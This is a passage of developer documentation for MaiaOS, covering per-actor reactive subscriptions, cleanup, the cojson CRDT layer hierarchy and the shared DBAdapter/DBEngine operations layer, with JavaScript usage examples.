- Runtime code operates on CRDTs directly (co-ids are CRDT identifiers)

**Why:**
- Human-readable IDs are transformed to co-ids during seeding
- Runtime code operates on CRDTs directly (co-ids are CRDT identifiers)
- Backend swap will use real cojson (co-ids are native)

### Unified read() API

**Rule:** All data access uses `read()` operation, which always returns reactive stores

**Pattern:**
```javascript
// read() always returns ReactiveStore
const store = await dbEngine.execute({
  op: 'read',
  schema: "co_zTodos123",  // Schema co-id
  key: "co_zTodo456"  // Optional: specific item co-id
  filter: { completed: false }  // Optional: filter criteria
});

// Store has current value
console.log('Current:', store.value);

// Subscribe to updates
const unsubscribe = store.subscribe((data) => {
  console.log('Updated:', data);
});
```

**Why:**
- Single pattern for all data access
- Always reactive (stores notify on changes)
- Consistent across configs and data
- No callback confusion (pure store pattern)

---

## Troubleshooting

### Config Not Updating

**Symptoms:** Config CRDT changes but actor doesn't update

**Check:**
1. Is subscription set up? (`actor._configSubscriptions` has unsubscribe function)
2. Is config co-id valid? (starts with `co_z`)
3. Is handler being called? (add logging to handler)
4. Is cache being invalidated? (check cache before/after)

**Fix:**
- Verify `SubscriptionEngine.initialize()` is called
- Verify engines are set (`subscriptionEngine.setEngines()`)
- Check console for subscription errors

### Duplicate Subscriptions

**Symptoms:** Multiple subscriptions to same config

**Check:**
1. Is `loadView()` called multiple times with `onUpdate`?
2. Are subscriptions cleaned up properly?
3. Is `_subscribeToConfig()` called multiple times?

**Fix:**
- Ensure `initialize()` is only called once per actor
- Ensure `cleanup()` is called when actor is destroyed
- Check for duplicate `loadView()` calls

### Performance Issues

**Symptoms:** Too many re-renders, laggy UI

**Check:**
1. Is batching working? (check `pendingRerenders` size)
2. Are subscriptions deduplicated? (check backend)
3. Are caches being used? (check cache hit rate)

**Fix:**
- Verify batching system is working
- Check for unnecessary subscriptions
- Optimize handlers (avoid heavy work in callbacks)

## Actor Lifecycle and Cleanup

### Container-Based Actor Tracking

Actors are tracked by container element to enable cleanup when vibes are unloaded:

```javascript
// Actors are registered with their container on creation
actorEngine._containerActors.set(containerElement, new Set([actorId1, actorId2]));

// When unloading a vibe, destroy all actors for that container
actorEngine.destroyActorsForContainer(containerElement);
```

**Key Points:**
- Each actor is registered with its container element when created
- Container tracking enables bulk cleanup when vibes are unloaded
- `destroyActorsForContainer()` destroys all actors for a container and cleans up subscriptions automatically

### Automatic Subscription Cleanup

Subscriptions are automatically cleaned up when actors are destroyed:

1. **Actor Destruction**: When `destroyActor()` is called, it calls `SubscriptionEngine.cleanup()`
2. **Unsubscribe All**: `SubscriptionEngine.cleanup()` unsubscribes from all `actor._subscriptions`
3. **Auto-Cleanup**: When the last subscriber unsubscribes from a store, `ReactiveStore` automatically calls `store._unsubscribe()`
4. **Backend Cleanup**: `store._unsubscribe()` cleans up `CoJSONBackend._storeSubscriptions` automatically

**Flow:**
```
destroyActor(actorId)
  → SubscriptionEngine.cleanup(actor)
    → unsubscribe from all actor._subscriptions
      → ReactiveStore: last subscriber unsubscribes
        → store._unsubscribe() called automatically
          → CoJSONBackend._storeSubscriptions cleaned up
```

**Important:**
- All subscriptions must go through `read()` → `store.subscribe()` → `actor._subscriptions` pattern
- Never bypass this pattern - direct database access won't be cleaned up automatically
- Container-based tracking ensures all actors for a vibe are destroyed together

### Data Not Updating

**Symptoms:** Query object in context but data doesn't update

**Check:**
1. Is schema a co-id? (must start with `co_z`)
2. Is subscription set up? (`actor._subscriptions` has unsubscribe function)
3. Is store subscription working? (check console for errors)

**Fix:**
- Verify schema is transformed to co-id during seeding
- Check that `SubscriptionEngine.initialize()` is called
- Verify `read()` operation succeeds

---

## Future: Backend Swap

**Current:** IndexedDB backend with reactive stores

**Future:** Real CoJSON CRDT backend

**Changes:**
- Backend will use `oSubscriptionCache` for deduplication
- Multiple actors subscribing to same CRDT → one backend subscription
- Automatic cleanup after 5 seconds of inactivity
- No engine-level caches needed (backend handles caching)

**Migration:**
- Subscription API stays the same (`dbEngine.execute({op: 'read', ...})`)
- Backend implementation swaps
- No actor-level code changes needed

---

## Related Documentation

- [subscriptions.md](./subscriptions.md) - Subscription overview
- [subscriptions-data.md](./subscriptions-data.md) - Data subscriptions
- [subscriptions-config.md](./subscriptions-config.md) - Config subscriptions
- [engines.md](./engines.md) - Engine details

---

## References

- Source: `libs/maia-script/src/engines/subscription-engine/`
- DB Engine: `libs/maia-script/src/engines/db-engine/operations/read.js`
- Reactive Store: `libs/maia-script/src/utils/reactive-store.js`

---

# MAIA SCRIPT/SUBSCRIPTIONS

*Source: developers/04_maia-script/subscriptions.md*

# Subscription Architecture

## Overview

MaiaOS uses a **decentralized, per-actor subscription system** for end-to-end reactivity. Every actor automatically subscribes to:
1. **Data dependencies** (query objects in context)
2. **Config CRDTs** (view, style, state, interface, context, brand)
3. **Message channels** (subscriptions colist, inbox costream)

When any dependency changes, actors automatically update and re-render.

---

## The Simple Version

Think of subscriptions like automatic notifications. When you tell an actor "watch this data," it automatically gets notified whenever that data changes, just like getting a text message when someone updates a shared document.

**Example:**
```javascript
// Actor context has a query object
actor.context = {
  todos: {
    schema: "co_zTodos123",  // Which data to watch
    filter: { completed: false }  // Filter criteria
  }
}

// SubscriptionEngine automatically:
// 1. Subscribes to todos matching the filter
// 2. Updates actor.context.todos when data changes
// 3. Triggers re-render so the UI updates
```

---

## Architecture

### Decentralized Per-Actor Tracking

**Each actor tracks its own subscriptions:**

```javascript
actor._subscriptions = [unsubscribe1, unsubscribe2, ...];      // Data subscriptions
actor._configSubscriptions = [unsubscribe1, unsubscribe2, ...]; // Config subscriptions
```

**Benefits:**
- Simple cleanup (actor destruction → unsubscribe all)
- No centralized subscription registry needed
- Backend handles deduplication (future: `oSubscriptionCache`)

### Backend Abstraction

**Current Backend (IndexedDB):**
- `IndexedDBBackend` in `libs/maia-script/src/engines/db-engine/backend/indexeddb.js`
- Uses reactive stores from unified `read()` API
- Observer pattern: `this.observers = new Map()`
- Each subscription creates separate observer
- No centralized deduplication (that's future)

**Future Backend (Real CoJSON):**
- `maia-db` with `oSubscriptionCache`
- Centralized deduplication (multiple actors → one backend subscription)
- Automatic cleanup after 5 seconds
- **NOT part of this refactor** - defer to backend swap

---

## Documentation Structure

This subscription documentation is organized into focused topics:

- **[subscriptions-data.md](./subscriptions-data.md)** - Data subscriptions (query objects, reactive updates)
- **[subscriptions-config.md](./subscriptions-config.md)** - Config subscriptions (view, style, state, handlers)
- **[subscriptions-patterns.md](./subscriptions-patterns.md)** - Patterns, troubleshooting, and examples

---

## Quick Start

**Data Subscription:**
```javascript
// Query object in context automatically creates subscription
actor.context = {
  todos: {
    schema: "co_zTodos123",
    filter: { completed: false }
  }
}

// SubscriptionEngine uses read() API:
const store = await dbEngine.execute({
  op: 'read',
  schema: "co_zTodos123",
  filter: { completed: false }
});

// Subscribe to store updates
const unsubscribe = store.subscribe((data) => {
  actor.context.todos = data;
  subscriptionEngine._scheduleRerender(actorId);
});
```

**Config Subscription:**
```javascript
// Actor config references view co-id
actor.config = {
  view: "co_zView123"
}

// SubscriptionEngine automatically subscribes to view CRDT
// When view changes → updates actor.viewDef → re-renders
```

---

## Key Concepts

### Unified `read()` API

All data access uses the unified `read()` operation, which always returns a reactive store:

```javascript
// read() always returns a ReactiveStore
const store = await dbEngine.execute({
  op: 'read',
  schema: "co_zTodos123",  // Schema co-id (co_z...)
  filter: { completed: false }  // Optional filter
});

// Store has current value
console.log('Current todos:', store.value);

// Subscribe to updates
const unsubscribe = store.subscribe((data) => {
  console.log('Todos updated:', data);
});
```

**Why unified API:**
- Single pattern for all data access
- Always reactive (stores notify on changes)
- Consistent across configs and data
- No callback confusion (pure store pattern)

### Co-IDs Only

**Rule:** Runtime code MUST use co-ids (`co_z...`), NEVER human-readable IDs (`@schema/...`)

**Enforcement:**
- `ReadOperation` validates: `if (!schema.startsWith('co_z')) throw new Error(...)`
- Human-readable IDs are transformed to co-ids during seeding
- Runtime code operates on CRDTs directly (co-ids are CRDT identifiers)

---

## Subscription Lifecycle

### Initialization

**When:** Actor is created

**Process:**
1. `ActorEngine.createActor()` creates actor
2. Loads configs (view, style, state, etc.) - one-time load
3. Calls `SubscriptionEngine.initialize(actor)`
4. `SubscriptionEngine` subscribes to:
   - Data (query objects in context)
   - Configs (view, style, state, interface, context, brand)
5. Subscriptions stored in `actor._subscriptions` and `actor._configSubscriptions`

### Updates

**Data Updates:**
- Store subscription fires with new data
- `SubscriptionEngine._handleDataUpdate()` updates `actor.context[key]`
- Batched re-render scheduled

**Config Updates:**
- Store subscription fires with new config
- Handler updates actor property (`actor.viewDef`, `actor.machine`, etc.)
- Cache invalidated/updated
- Batched re-render scheduled

### Cleanup

**When:** Actor is destroyed

**Process:**
1. `ActorEngine.destroyActor()` called
2. Calls `SubscriptionEngine.cleanup(actor)`
3. Unsubscribes all data subscriptions (`actor._subscriptions`)
4. Unsubscribes all config subscriptions (`actor._configSubscriptions`)
5. Removes from pending re-renders

---

## Related Documentation

- [subscriptions-data.md](./subscriptions-data.md) - Data subscriptions details
- [subscriptions-config.md](./subscriptions-config.md) - Config subscriptions details
- [subscriptions-patterns.md](./subscriptions-patterns.md) - Patterns and troubleshooting
- [engines.md](./engines.md) - Engine overview (includes SubscriptionEngine)
- [api-reference.md](./api-reference.md) - Complete API reference

---

## References

- Source files: `libs/maia-script/src/engines/subscription-engine/`
- DB Engine: `libs/maia-script/src/engines/db-engine/`
- Reactive Store: `libs/maia-script/src/utils/reactive-store.js`

---

# MAIA DB/COJSON

*Source: developers/05_maia-db/cojson.md*

# cojson/CRDT Architecture

**Complete hierarchy from lowest-level primitives to high-level CoValues**


---

## Overview

This document maps the complete cojson architecture from cryptographic primitives (Layer 0) to application-level CoValues (Layer 7+), showing what composes what and how the CRDT system works under the hood.

---

## Architecture Layers (Lowest → Highest)

```
┌─────────────────────────────────────────────────────────────┐
│ LAYER 0: CRYPTOGRAPHIC PRIMITIVES                          │
├─────────────────────────────────────────────────────────────┤
│ • Hash (Blake3)                                             │
│ • Signature (Ed25519)                                       │
│ • Encryption (XSalsa20, X25519)                             │
│ • KeyID, KeySecret, SignerID                                │
└─────────────────────────────────────────────────────────────┘
                         ↓
┌─────────────────────────────────────────────────────────────┐
│ LAYER 1: IDENTIFIERS                                        │
├─────────────────────────────────────────────────────────────┤
│ • RawCoID: "co_z..." (CoValue ID)                           │
│ • SessionID: "co_zXXX_session_zYYY"                         │
│ • TransactionID: SessionID + txIndex                        │
│ • AgentID: "signer_z..." or "sealer_z..."                   │
└─────────────────────────────────────────────────────────────┘
                         ↓
┌─────────────────────────────────────────────────────────────┐
│ LAYER 2: TRANSACTIONS & OPERATIONS                         │
├─────────────────────────────────────────────────────────────┤
│ • Transaction: Single atomic change                         │
│   - madeAt: timestamp                                       │
│   - changes: JsonValue[] (encrypted ops)                    │
│   - meta: JsonObject (transaction metadata)                 │
│ • VerifiedTransaction: Validated transaction                │
└─────────────────────────────────────────────────────────────┘
                         ↓
┌─────────────────────────────────────────────────────────────┐
│ LAYER 3: CORE VALUE HEADER & VERIFIED STATE               │
├─────────────────────────────────────────────────────────────┤
│ • CoValueHeader:                                            │
│   - type: "comap" | "colist" | "costream" | "coplaintext"   │
│   - ruleset: ownership/permissions rules                    │
│   - meta: headerMeta (JsonObject | null)                    │
│   - createdAt: timestamp                                    │
│                                                             │
│ • VerifiedState: Validated header + transactions            │
│   - header: CoValueHeader                                   │
│   - sessions: Map<SessionID, Transaction[]>                 │
└─────────────────────────────────────────────────────────────┘
                         ↓
┌─────────────────────────────────────────────────────────────┐
│ LAYER 4: CoValueCore (The CRDT Engine)                     │
├─────────────────────────────────────────────────────────────┤
│ • CoValueCore: Low-level CRDT state machine                 │
│   - id: RawCoID                                             │
│   - verified: VerifiedState                                 │
│   - node: LocalNode                                         │
│   - Methods:                                                │
│     • processTransaction()                                  │
│     • getCurrentContent() → RawCoValue                      │
│     • subscribe()                                           │
│     • createBranch()                                        │
│     • mergeBranch()                                         │
│                                                             │
│ ** THIS IS WHERE THE CRDT MAGIC HAPPENS **                  │
│ All conflict resolution, merging, and sync                  │
└─────────────────────────────────────────────────────────────┘
                         ↓
┌─────────────────────────────────────────────────────────────┐
│ LAYER 5: RawCoValue (Base Interface)                       │
├─────────────────────────────────────────────────────────────┤
│ Common interface for ALL CoValue types:                     │
│ • id: CoID<T>                                               │
│ • core: CoValueCore                                         │
│ • type: string                                              │
│ • headerMeta: JsonObject | null  ← YOUR $schema HERE!       │
│ • group: RawGroup                                           │
│ • toJSON(): JsonValue                                       │
│ • subscribe()                                               │
└─────────────────────────────────────────────────────────────┘
                         ↓
          ┌──────────────┴──────────────┐
          ↓                             ↓
┌─────────────────────┐    ┌─────────────────────────┐
│ LAYER 6A:           │    │ LAYER 6B:               │
│ BASE CRDT TYPES     │    │ SPECIAL CRDT TYPES      │
├─────────────────────┤    ├─────────────────────────┤
│ 1. RawCoMap         │    │ 1. RawCoList            │
│    type: "comap"    │    │    type: "colist"       │
│    ↓                │    │    • Ordered CRDT list  │
│    Key-value CRDT   │    │    • insert/delete/move │
│    with ops:        │    │                         │
│    • set(k, v)      │    │ 2. RawCoPlainText       │
│    • delete(k)      │    │    type: "coplaintext"  │
│    • get(k)         │    │    • Character CRDT     │
│                     │    │    • append/insert/del  │
│ 2. RawCoStream      │    │                         │
│    type: "costream" │    │ 3. RawBinaryCoStream    │
│    ↓                │    │    type: "costream"     │
│    Append-only log  │    │    meta: {type:"binary"}│
│    • push(item)     │    │    • Binary chunks      │
│    • Session-based  │    │    • push(Uint8Array)   │
│                     │    │                         │
└─────────────────────┘    └─────────────────────────┘
          ↓
┌─────────────────────────────────────────────────────────────┐
│ LAYER 7: SPECIALIZED CoMaps (Subclasses)                   │
├─────────────────────────────────────────────────────────────┤
│ RawGroup extends RawCoMap                                   │
│   type: "comap"                                             │
│   ruleset.type: "group"                                     │
│   headerMeta: null (no schema, cojson limitation)           │
│   Special methods:                                          │
│   • addMember(agent, role)                                  │
│   • createMap(init, meta) → RawCoMap                        │
│   • createList(init, meta) → RawCoList                      │
│   • createStream(meta) → RawCoStream                        │
│   • createBinaryStream(meta) → RawBinaryCoStream            │
│   • createPlainText(text, meta) → RawCoPlainText            │
│                                                             │
│ RawAccount extends RawCoMap                                 │
│   type: "comap"                                             │
│   ruleset.type: "group" (yes, Account IS a Group!)          │
│   headerMeta: {type: "account"} (built-in cojson)           │
│   Special properties:                                       │
│   • profile: CoID<RawCoMap>                                 │
│   • Keys for crypto (sealer, signer, readKey)               │
│                                                             │
│ Profile (just a RawCoMap with convention)                   │
│   type: "comap"                                             │
│   headerMeta: {$schema: "ProfileSchema"} (by YOU!)          │
│   Typical properties:                                       │
│   • name: string                                            │
│   • ... (any JSON data)                                     │
└─────────────────────────────────────────────────────────────┘
```

---

## Core Type System

### Type Discrimination Logic

From `coreToCoValue.ts` - how cojson determines which class to instantiate:

```typescript
if (type === "comap") {
  if (ruleset === "group") {
    if (meta.type === "account") → RawAccount
    else → RawGroup
  } else → RawCoMap
}
else if (type === "colist") → RawCoList
else if (type === "costream") {
  if (meta.type === "binary") → RawBinaryCoStream
  else → RawCoStream
}
else if (type === "coplaintext") → RawCoPlainText
```

---

## What Composes What

```
Account (CoMap + special meta)
  ↳ owns → Group (CoMap + group ruleset)
      ↳ creates → Profile (CoMap with your schema)
      ↳ creates → ProfileList (CoList with your schema)
      ↳ creates → ActivityStream (CoStream with your schema)
      ↳ creates → AvatarStream (BinaryCoStream with your schema)
      ↳ creates → BioText (CoPlainText with your schema)
```

---

## The 4 Base CRDT Types

| Type | Internal Structure | Operations | Use Case |
|------|-------------------|------------|----------|
| **CoMap** | `Map<string, JsonValue>` | set, delete, get | Objects, documents |
| **CoList** | Ordered list with CRDT positions | insert, delete, move | Arrays, todo lists |
| **CoStream** | Session-based append log | push (append-only) | Events, messages, logs |
| **CoPlainText** | Character-based CRDT | append, insert, delete | Text editing, documents |

---

## CoStream vs CoList - Key Differences

### CoList (Collaborative List)
- **Ordered collection** with **positional editing**
- Can **insert, delete, move** items at specific indices
- Items can be **reordered**
- **Structure**: `[item1, item2, item3]`
- **Use cases**: Todo lists, ordered collections, reorderable arrays

### CoStream (Append-Only Log)
- **Immutable append-only** log
- Items organized by **session** (who wrote them)
- **Cannot delete or edit** once pushed
- **Structure**: `{ session_id: [items...], another_session: [items...] }`
- **Use cases**: Activity logs, chat messages, audit trails, event sourcing

### BinaryCoStream
- Same as CoStream but for **binary data** (Uint8Array)
- Push **chunks of bytes**
- **Use cases**: Images, files, video streams, audio

---

## Your Schema Layer (Layer 8)

MaiaOS extends cojson with a schema system using `headerMeta`:

```
headerMeta: { $schema: "YourSchema" }  ← Layer 8: YOUR APPLICATION
         ↓
    RawCoValue (Layer 5)
         ↓
    CoValueCore (Layer 4) ← The CRDT magic happens here
         ↓
    Transactions (Layer 2) ← Synced across peers
```

### Why This Works

- **Proven CRDT primitives** (Layer 4) handle all conflict resolution
- **Your schema system** (Layer 8) adds semantic meaning
- **Zero breaking changes** to cojson - pure extension via `headerMeta`
- **Type-safe** through `$schema` references
- **Inspectable** - all schemas visible in CoValue metadata

---

## Example: Full Stack

### Creating a Profile

```javascript
// Layer 8: Your schema
const profileMeta = { $schema: "ProfileSchema" };

// Layer 7: Create via Group
const profile = group.createMap({ name: "Alice" }, profileMeta);

// Layer 6: RawCoMap instance
// Layer 5: Implements RawCoValue interface
// Layer 4: CoValueCore handles CRDT operations
// Layer 3: Header + VerifiedState
// Layer 2: Transactions synced
// Layer 1: IDs generated
// Layer 0: Crypto operations
```

### Resulting CoValue

```javascript
{
  id: "co_z...",              // Layer 1
  type: "comap",              // Layer 5
  headerMeta: {               // Layer 8 (YOUR LAYER!)
    $schema: "ProfileSchema"
  },
  group: RawGroup,            // Layer 7
  core: CoValueCore           // Layer 4 (CRDT engine)
}
```

---

## Key Insights

1. **Account IS a Group** - with special `meta.type = "account"`
2. **BinaryCoStream IS a CoStream** - with special `meta.type = "binary"`
3. **Groups can't have schemas** - `createGroup()` hardcodes `meta: null`
4. **Accounts have built-in meta** - cojson sets `{type: "account"}` automatically
5. **Everything else supports schemas** - CoMap, CoList, CoStream, CoPlainText via `meta` parameter

---

## References

- **Source**: `libs/maia-db/node_modules/cojson/src/`
  - `coValue.ts` - RawCoValue interface
  - `coreToCoValue.ts` - Type discrimination logic
  - `coValueCore/coValueCore.ts` - CRDT engine
  - `coValues/` - All CoValue implementations

- **MaiaOS Extensions**:
  - `libs/maia-db/src/services/` - CoValue creation services
  - `libs/maia-db/src/utils/meta.js` - Schema metadata utilities
  - `libs/maia-core/src/o.js` - Inspector with schema support

---

## Operations Layer Integration

The CoJSON backend will implement the `DBAdapter` interface from `@MaiaOS/operations`, allowing it to use the same unified operations layer as the IndexedDB backend.

**Future Integration:**
- CoJSON backend will implement `DBAdapter` interface
- Operations (read, create, update, delete) will work identically for both backends
- Same `DBEngine` API regardless of backend choice

**Related Documentation:**
- [maia-operations Package](../06_maia-operations/README.md) - Shared operations layer and DBAdapter interface

---

# MAIA DB/README

*Source: developers/05_maia-db/README.md*

# maia-db: Database Backends

## Overview

The `@MaiaOS/db` package provides database backends for MaiaOS. Currently, it includes the CoJSON CRDT backend implementation, with plans to implement the `DBAdapter` interface from `@MaiaOS/operations` to unify operations across backends.

**What it is:**
- ✅ **CoJSON backend** - CRDT-based collaborative database backend
- ✅ **CoValue services** - Services for creating and managing CoValues
- ✅ **Schema integration** - Schema metadata utilities for CoValues

**What it isn't:**
- ❌ **Not the operations layer** - Operations are in `@MaiaOS/operations`
- ❌ **Not the IndexedDB backend** - IndexedDB backend is in `@MaiaOS/script`
- ❌ **Not the database engine** - DBEngine is in `@MaiaOS/operations`

---

## The Simple Version

Think of `maia-db` like a specialized storage system:

- **CoJSON backend** = A collaborative storage system where multiple people can edit at the same time
- **CoValue services** = Helpers for creating and managing collaborative data structures
- **Schema integration** = Connects your schemas to the collaborative storage

**Analogy:**
Imagine you have two storage systems:
- **IndexedDB** = A local filing cabinet (fast, local-only)
- **CoJSON** = A shared Google Doc (collaborative, syncs across devices)

Both storage systems will eventually speak the same language (`DBAdapter` interface) so you can use the same operations regardless of which one you choose.

---

## Architecture

### Current Structure

```
libs/maia-db/src/
├── cojson/                    # CoJSON backend implementation
│   ├── backend/               # Backend adapter (future: implements DBAdapter)
│   ├── operations/             # CoJSON-specific operations
│   └── factory.js             # Factory for creating CoJSON instances
├── services/                  # CoValue creation services
│   ├── oGroup.js              # Group creation
│   ├── oID.js                 # ID generation
│   ├── oMap.js                # CoMap creation
│   ├── oList.js               # CoList creation
│   └── ...
├── schemas/                   # Schema system integration
│   ├── registry.js            # Schema registry
│   ├── validation.js          # Schema validation
│   └── ...
└── migrations/                # Database migrations
```

### Future Integration

The CoJSON backend will implement the `DBAdapter` interface from `@MaiaOS/operations`:

```
┌─────────────────────────────────────────┐
│         @MaiaOS/operations               │
│  (DBEngine, Operations, DBAdapter)       │
└─────────────────┬───────────────────────┘
                  │
        ┌─────────┴─────────┐
        ↓                   ↓
┌───────────────┐   ┌───────────────┐
│ IndexedDB     │   │ CoJSON        │
│ Backend       │   │ Backend       │
│ (implements   │   │ (implements   │
│  DBAdapter)   │   │  DBAdapter)   │
└───────────────┘   └───────────────┘
```

---

## Documentation

- **[CoJSON Architecture](./cojson.md)** - Complete layer hierarchy from cryptographic primitives to high-level CoValues

---

## Related Documentation

- [maia-operations Package](../06_maia-operations/README.md) - Shared operations layer and DBAdapter interface
- [maia-script Package](../04_maia-script/README.md) - IndexedDB backend implementation
- [maia-schemata Package](../03_maia-schemata/README.md) - Schema validation and transformation

---

## Source Files

**Package:** `libs/maia-db/`

**Key Files:**
- `src/cojson/` - CoJSON backend implementation
- `src/services/` - CoValue creation services
- `src/schemas/` - Schema system integration

**Dependencies:**
- `cojson` - CRDT library
- `@MaiaOS/schemata` - Schema validation

---

# MAIA OPERATIONS/README

*Source: developers/06_maia-operations/README.md*

# maia-operations: Shared Database Operations Layer

## Overview

The `@MaiaOS/operations` package provides a **shared operations layer** that works with any database backend. Think of it as a universal translator - it defines a common language (the `DBAdapter` interface) that all backends must speak, and provides unified operations that work regardless of which backend you're using.

**What it is:**
- ✅ **Shared operations** - Read, create, update, delete, seed operations that work with any backend
- ✅ **DBAdapter interface** - Defines what all backends must implement
- ✅ **DBEngine** - Unified operation router that works with any backend adapter
- ✅ **ReactiveStore** - Shared reactive data store pattern (like Svelte stores)

**What it isn't:**
- ❌ **Not a backend** - It doesn't store data itself, it works with backends
- ❌ **Not maia-script specific** - Can be used by any package that needs database operations
- ❌ **Not the database** - The actual storage is handled by backends (IndexedDB, CoJSON, etc.)

---

## The Simple Version

Think of `maia-operations` like a universal remote control:

- **DBAdapter** = The universal language all TVs must understand
- **Operations** = The buttons on the remote (read, create, update, delete)
- **DBEngine** = The remote control itself (routes button presses to the right operation)
- **ReactiveStore** = The display screen (shows current value and updates automatically)

**Analogy:**
Imagine you have different brands of TVs (IndexedDB, CoJSON, etc.). Each TV speaks a different language, but they all understand the same remote control commands. The `maia-operations` package is like that universal remote - it defines the common language (`DBAdapter`) and provides the buttons (`operations`) that work with any TV.

---

## Architecture

### Package Structure

```
libs/maia-operations/src/
├── index.js                    # Main exports
├── engine.js                   # Unified DBEngine
├── db-adapter.js               # DBAdapter interface
├── reactive-store.js           # ReactiveStore implementation
└── operations/                 # Operation classes
    ├── index.js                # Operations exports
    ├── read.js                 # ReadOperation (supports keys array)
    ├── create.js               # CreateOperation
    ├── update.js               # UpdateOperation (data + configs)
    ├── delete.js               # DeleteOperation
    └── seed.js                 # SeedOperation (backend-specific)
```

### How It Works

```
┌─────────────────────────────────────────┐
│         Your Application                │
│  (maia-script, maia-db, etc.)          │
└─────────────────┬───────────────────────┘
                  │
                  ↓
┌─────────────────────────────────────────┐
│         DBEngine                        │
│  (from @MaiaOS/operations)             │
│  - Routes operations                    │
│  - Validates schemas                    │
│  - Manages operation handlers           │
└─────────────────┬───────────────────────┘
                  │
                  ↓
┌─────────────────────────────────────────┐
│         Operations                      │
│  (ReadOperation, CreateOperation, etc.) │
│  - Execute specific operations          │
│  - Validate against schemas            │
│  - Call backend adapter methods         │
└─────────────────┬───────────────────────┘
                  │
                  ↓
┌─────────────────────────────────────────┐
│         DBAdapter Interface              │
│  (read, create, update, delete, etc.)   │
│  - Defines what backends must implement │
└─────────────────┬───────────────────────┘
                  │
        ┌─────────┴─────────┐
        ↓                   ↓
┌───────────────┐   ┌───────────────┐
│ IndexedDB     │   │ CoJSON        │
│ Backend       │   │ Backend        │
│ (implements   │   │ (implements   │
│  DBAdapter)   │   │  DBAdapter)   │
└───────────────┘   └───────────────┘
```

---

## Key Concepts

### DBAdapter Interface

All backends must implement the `DBAdapter` interface. This ensures that operations work the same way regardless of which backend you're using.

**Required Methods:**
- `read(schema, key, keys, filter)` - Read data (returns ReactiveStore)
- `create(schema, data)` - Create new records
- `update(schema, id, data)` - Update existing records
- `delete(schema, id)` - Delete records
- `getRawRecord(id)` - Get raw stored data (for validation)
- `resolveHumanReadableKey(key)` - Resolve human-readable IDs to co-ids

**Optional Methods:**
- `seed(configs, schemas, data)` - Seed database (backend-specific)

### Operations

Operations are modular handlers that execute specific database operations:

- **ReadOperation** - Loads data (always returns ReactiveStore)
- **CreateOperation** - Creates new records (validates against schema)
- **UpdateOperation** - Updates existing records (unified for data + configs)
- **DeleteOperation** - Deletes records
- **SeedOperation** - Seeds database (backend-specific, IndexedDB only)
- **SchemaOperation** - Loads schema definitions by co-id, schema name, or from CoValue headerMeta
- **ResolveOperation** - Resolves human-readable keys to co-ids

### DBEngine

The `DBEngine` routes operations to the appropriate handler. It:
- Accepts a `DBAdapter` instance in the constructor
- Routes `execute()` calls to the right operation handler
- Provides helper methods like `getSchemaCoId()` and `resolveCoId()` (which use operations API internally)
- Optionally accepts an evaluator for MaiaScript expression evaluation

**Important:** All database access should go through `dbEngine.execute({op: ...})`. Helper methods like `getSchemaCoId()` use the operations API internally, ensuring consistent patterns throughout the codebase.

### ReactiveStore

A simple reactive data store pattern (like Svelte stores):
- Holds a current value
- Notifies subscribers when the value changes
- Used by all read operations to provide reactive data access

---

## Usage

### Basic Usage

```javascript
import { DBEngine, DBAdapter } from '@MaiaOS/operations';
import { IndexedDBBackend } from '@MaiaOS/script';

// Create backend (must implement DBAdapter)
const backend = new IndexedDBBackend();
await backend.init();

// Create DBEngine with backend
const dbEngine = new DBEngine(backend);

// Execute operations
const store = await dbEngine.execute({
  op: 'read',
  schema: 'co_zTodos123',
  filter: { completed: false }
});

// Store is reactive
console.log('Current todos:', store.value);
store.subscribe((todos) => {
  console.log('Todos updated:', todos);
});
```

### With MaiaScript Evaluator (maia-script)

```javascript
import { DBEngine } from '@MaiaOS/operations';
import { MaiaScriptEvaluator } from '@MaiaOS/script';

const backend = new IndexedDBBackend();
await backend.init();

// Create evaluator for MaiaScript expressions
const evaluator = new MaiaScriptEvaluator();

// Pass evaluator to DBEngine
const dbEngine = new DBEngine(backend, { evaluator });

// Now update operations can evaluate MaiaScript expressions
await dbEngine.execute({
  op: 'update',
  schema: 'co_zTodos123',
  id: 'co_zTodo456',
  data: {
    done: { $not: '$existing.done' }  // Toggle using MaiaScript
  }
});
```

### Creating a Custom Backend

To create a custom backend, implement the `DBAdapter` interface:

```javascript
import { DBAdapter } from '@MaiaOS/operations';
import { ReactiveStore } from '@MaiaOS/operations/reactive-store';

class MyCustomBackend extends DBAdapter {
  async read(schema, key, keys, filter) {
    // Implement read logic
    // Must return ReactiveStore (or array of stores for batch reads)
    const data = await this._fetchData(schema, key, keys, filter);
    const store = new ReactiveStore(data);
    // Set up reactive updates...
    return store;
  }

  async create(schema, data) {
    // Implement create logic
    // Must return created record with co-id
  }

  async update(schema, id, data) {
    // Implement update logic
    // Must return updated record
  }

  async delete(schema, id) {
    // Implement delete logic
    // Must return true if deleted successfully
  }

  async getRawRecord(id) {
    // Implement getRawRecord logic
    // Must return raw stored data (with $schema metadata)
  }

  async resolveHumanReadableKey(key) {
    // Implement resolveHumanReadableKey logic
    // Must return co-id or null
  }
}
```

---

## Operations Reference

### ReadOperation

**Purpose:** Load data from database (always returns reactive store)

**Parameters:**
- `schema` (string, required) - Schema co-id (co_z...)
- `key` (string, optional) - Specific key (co-id) for single item
- `keys` (string[], optional) - Array of co-ids for batch reads
- `filter` (object, optional) - Filter criteria for collection queries

**Returns:** `ReactiveStore` (or array of stores for batch reads)

**Example:**
```javascript
// Single item
const store = await dbEngine.execute({
  op: 'read',
  schema: 'co_zTodos123',
  key: 'co_zTodo456'
});

// Collection
const store = await dbEngine.execute({
  op: 'read',
  schema: 'co_zTodos123'
});

// Batch read
const stores = await dbEngine.execute({
  op: 'read',
  schema: 'co_zTodos123',
  keys: ['co_zTodo1', 'co_zTodo2', 'co_zTodo3']
});
```

### CreateOperation

**Purpose:** Create new records

**Parameters:**
- `schema` (string, required) - Schema co-id (co_z...)
- `data` (object, required) - Data to create

**Returns:** Created record with generated co-id

**Example:**
```javascript
const newTodo = await dbEngine.execute({
  op: 'create',
  schema: 'co_zTodos123',
  data: { text: 'Buy milk', completed: false }
});
```

### UpdateOperation

**Purpose:** Update existing records (unified for data collections and configs)

**Parameters:**
- `schema` (string, required) - Schema co-id (co_z...)
- `id` (string, required) - Record co-id to update
- `data` (object, required) - Data to update

**Returns:** Updated record

**Features:**
- Validates merged result (existing + update data) against schema
- Supports MaiaScript expressions if evaluator is provided
- Handles both data collections and configs uniformly

**Example:**
```javascript
const updated = await dbEngine.execute({
  op: 'update',
  schema: 'co_zTodos123',
  id: 'co_zTodo456',
  data: { completed: true }
});
```

### DeleteOperation

**Purpose:** Delete records

**Parameters:**
- `schema` (string, required) - Schema co-id (co_z...)
